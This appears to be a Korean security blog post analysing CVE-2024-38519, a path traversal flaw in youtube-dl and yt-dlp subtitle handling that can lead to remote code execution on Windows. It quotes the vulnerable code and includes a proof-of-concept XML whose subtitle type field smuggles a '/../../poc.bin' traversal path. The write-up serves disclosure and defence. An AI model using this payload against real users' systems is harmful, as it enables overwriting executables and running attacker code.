 ```yaml
---
title: "[하루한줄] CVE-2024-38519 : youtube-dl 및 yt-dlp의 Path Traversal로 인한 RCE"
author: L0ch
tags: [L0ch, youtube-dl, yt-dlp, path traversal]
categories: [1day1line]
date: 2024-07-17 20:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/](https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/)

[https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/](https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/)

## Target

- youtube-dl
    - nightly release < v2024.07.03
    - official release 모든 버전
- yt-dlp
    - official release < v2024.07.01

## Explain

youtube-dl은 유튜브를 포함한 동영상 호스팅 사이트의 동영상을 다운로드하는 오픈소스 소프트웨어입니다. 공식 버전은 2021년 12월 17일 이후로 유지보수되지는 않으나, [ytdl-nightly](https://github.com/ytdl-org/ytdl-nightly) 저장소에서 지속적으로 업데이트되고 있습니다.

yt-dlp는 youtube-dl의 fork로, youtube-dl 프로젝트 중단 이후로 대부분의 사용자가 사용하는 다운로더이며 약 76,000의 star를 받는 등 인기있는 오픈소스 프로젝트 중 하나입니다. 이러한 두 소프트웨어에서 자막 파일 확장자 검증 미흡으로 인한 Path Traversal 취약점이 발견되어 세부 정보가 공개되었습니다.

yt-dlp 및 youtube-dl(이하 yt-dlp)은 영상뿐만 아니라 `--write-subs`, `--write-auto-subs`,  `--all-subs`, `--write-srt`(only yt-dlp) 옵션을 통해 자막 또한 다운로드할 수 있습니다. 지원되는 동영상 호스팅 웹사이트마다 [전용 자막 extractor](https://github.com/yt-dlp/yt-dlp/tree/master/yt_dlp/extractor)가 존재합니다.

자막 추출 과정은 각 extractor 구현 방식에 따라 아래와 같이 여러 방식으로 동작합니다.

1. extractor가 자막의 URL만 제공하는 경우
    - yt-dlp core가 직접 URL에 포함된 자막의 확장자를 확인함
2. extractor가 URL 및 자막 확장자를 명시적으로 제공하는 경우
    - 일부 extractor는 추출된 자막 확장자를 검증함.
    
    ```python
    # anvato.py
    a_caption = {
        'url': caption['url'],
        'ext': 'tt' if caption.get('format') == 'SMPTE-TT' else None
    }
    subtitles.setdefault(caption['language'], []).append(a_caption)
    ```
    
    - 일부 extractor는 추출된 자막 확장자를 검증하지 않음
    
    ```python
    # microsoftvirtualacademy.py
    subtitles.setdefault('en', []).append({
        'url': '%s/%s' % (base_url, subtitle_url),
        'ext': source.get('type'),
    })
    ```
    

취약점은 yt-dlp가 자막 확장자를 검증하지 않는 2번 동작 방식의 extractor에서 자막을 빌드할떄 발생합니다.

```python
    for sub_lang, sub_info in subtitles.items():
      sub_format = sub_info['ext']
      sub_filename = subtitles_filename(filename, sub_lang, sub_format, info_dict.get('ext')) # <------------- [1]
      sub_filename_final = subtitles_filename(sub_filename_base, sub_lang, sub_format, info_dict.get('ext'))
      existing_sub = self.existing_file((sub_filename_final, sub_filename))
      if existing_sub:
          self.to_screen(f'[info] Video subtitle {sub_lang}.{sub_format} is already present')
          sub_info['filepath'] = existing_sub
          ret.append((existing_sub, sub_filename_final))
          continue

      self.to_screen(f'[info] Writing video subtitles to: {sub_filename}')
#...

      try:
          sub_copy = sub_info.copy()
          sub_copy.setdefault('http_headers', info_dict.get('http_headers'))
          self.dl(sub_filename, sub_copy, subtitle=True) # <------------- [2]
          sub_info['filepath'] = sub_filename
          ret.append((sub_filename, sub_filename_final))
#...
```

yt-dlp는 [1]에서 extractor에서 제공한 자막 확장자 `sub_info['exe']`를 신뢰하고 별다른 검증 없이 출력할 자막파일의 이름 `sub_filename` 을 구성하고, [2]에서 구성된 자막파일 이름을 사용해 빌드합니다.

해커는 파일 확장자에 path traversal payload를 삽입해 취약점을 트리거할 수 있습니다.

기본적으로 sub_filename은 `[title][id].[sub_lang].[sub_format]` 로, 확장자가 마지막에 구성되어 `[not_existing_path]/../../../[payload]`  와 같이 구성 가능합니다. 이는 존재하지 않는 디렉터리가 포함된 경로를 허용하지 않는 Linux에서는 작동하지 않으나 Windows에서는 작동합니다.

![Untitled](2024-07-17/Untitled.png)

```python
<videoSettings version="1.5">
  <PlaylistItems>
    <PlaylistItem>
      <MediaSources videoType="progressive">﻿<MediaSource videoMode="720p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="true">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_high.mp4</MediaSource>﻿<MediaSource videoMode="540p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_mid.mp4</MediaSource>﻿<MediaSource videoMode="360p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">https://sec.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01.mp4</MediaSource></MediaSources>
      <MediaSource />
      <Title>01 | Introduction</Title>
      <MarkerResourceSource type="/../../poc.bin">content/content_gfvxismeb_6804984382/subtitles</MarkerResourceSource>
      <ThumbSource />
    </PlaylistItem>
  </PlaylistItems>
</videoSettings>
```

취약점은 위와 같이 추출 타겟이 될 XML을 생성하고 호스팅하는 것으로 트리거 가능하며, 이로 인해 실행 파일 등을 overwrite하는 것으로 RCE까지 이어질 수 있습니다.
